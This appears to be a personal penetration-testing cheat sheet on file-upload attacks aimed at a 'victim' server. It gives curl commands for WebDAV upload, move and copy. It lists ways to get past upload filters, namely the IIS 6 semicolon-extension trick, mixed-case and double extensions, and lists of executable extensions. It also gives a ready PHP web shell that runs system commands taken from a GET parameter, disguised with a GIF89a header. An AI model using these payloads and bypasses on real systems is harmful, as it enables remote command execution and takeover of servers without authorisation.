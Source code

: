 # File Upload
If try to upload webshell to victim check how the exploit is done.
Check any bad characters

e.g. $XXX is taken as variable in bash, need to use \$ to escape

### WebDav  

upload file:  
curl -T '/path/to/local/file.txt' 'https://example.com/test/'  
curl --upload-file \<file> http://\<IP>/test/\<filename>  

curl -X MOVE --header 'Destination:http://example.org/new.txt' 'https://example.com/old.txt'  
curl -X COPY --header 'Destination:http://example.org/new.txt' 'https://example.com/old.txt'  

login:  
curl --user 'user:pass' 'https://example.com'  

Upload bypass:  
https://www.owasp.org/index.php/Unrestricted_File_Upload  
https://soroush.secproject.com/blog/tag/unrestricted-file-upload/  
 
IIS 6.0 or below
Asp > upload as test.txt, copy or move file as test.asp;.txt

Php > upload as pHp / phP / test.php.jpg / 

php - phtml, .php, .php3, .php4, .php5, and .inc

asp - asp, .aspx

perl - .pl, .pm, .cgi, .lib

jsp - .jsp, .jspx, .jsw, .jsv, and .jspf

Coldfusion - .cfm, .cfml, .cfc, .dbm

Add:   

GIF89a;
<blink>
<?php echo shell_exec($_GET["cmd"]); ?>      
<?system($_GET['cmd']);//or you can insert your complete shell code?>   
</blink>

### Options
Use options to check for upload method.

upload function. Is put allowed?
